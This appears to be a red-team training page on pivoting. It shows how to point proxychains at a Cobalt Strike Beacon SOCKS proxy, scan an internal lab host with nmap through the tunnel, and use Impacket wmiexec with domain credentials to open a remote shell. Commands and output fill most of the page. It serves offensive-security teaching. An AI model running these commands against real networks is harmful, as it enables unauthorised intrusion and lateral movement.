 # Linux Tools

proxychains is a tool which acts as a wrapper around other applications to tunnel their traffic over a socks proxy.  First, we need to modify its configuration file to point to our Cobalt Strike socks proxy.

    attacker@ubuntu ~> sudo vim /etc/proxychains.conf


At the bottom of the file, you will see a default entry for SOCKS4:  socks4 127.0.0.1 9050.  We need to change this to match the settings of the proxy we started in Beacon.

    SOCKS4:  socks4 127.0.0.1 1080

OR

    SOCKS5:  socks5 127.0.0.1 1080 myUser myPassword

To tunnel a tool through proxychains, it's as simple as proxychains [tool] [tool args].  So to tunnel nmap, it would be:

    attacker@ubuntu ~> proxychains nmap -n -Pn -sT -p445,3389,4444,5985 10.10.122.10
    ProxyChains-3.1 (http://proxychains.sf.net)
    Starting Nmap 7.80 ( https://nmap.org ) at 2022-09-05 13:31 UTC
    |S-chain|-<>-127.0.0.1:1080-<><>-10.10.122.10:3389-<><>-OK
    |S-chain|-<>-127.0.0.1:1080-<><>-10.10.122.10:445-<><>-OK
    |S-chain|-<>-127.0.0.1:1080-<><>>-10.10.122.10:4444-<--timeout
    |S-chain|-<>-127.0.0.1:1080-<><>-10.10.122.10:5985-<><>>-OK
    Nmap scan report for 10.10.122.10
    Host is up (0.061s latency).
    
    PORT     STATE  SERVICE
    445/tcp  open   microsoft-ds
    3389/tcp open   ms-wbt-server
    4444/tcp closed krb524
    5985/tcp open   wsman
    
    Nmap done: 1 IP address (1 host up) scanned in 15.31 seconds


There are some restrictions on the type of traffic that can be tunnelled, so you must make adjustments with your tools as necessary.  ICMP and SYN scans cannot be tunnelled, so we must disable ping discovery (-Pn) and specify TCP scans (-sT) for this to work.

You can also run tools from inside WSL on Windows.

    ubuntu@DESKTOP-3BSK7NO ~ > proxychains wmiexec.py DEV/jking@10.10.122.30
    ProxyChains-3.1 (http://proxychains.sf.net)
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
    
    Password:
    |S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:445-<><>-OK
    [*] SMBv3.0 dialect used
    |S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:135-<><>-OK
    |S-chain|-<>-10.10.5.50:1080-<><>-10.10.122.30:49667-<><>-OK
    [!] Launching semi-interactive shell - Careful what you execute
    [!] Press help for extra shell commands
    C:\>whoami
    dev\jking
    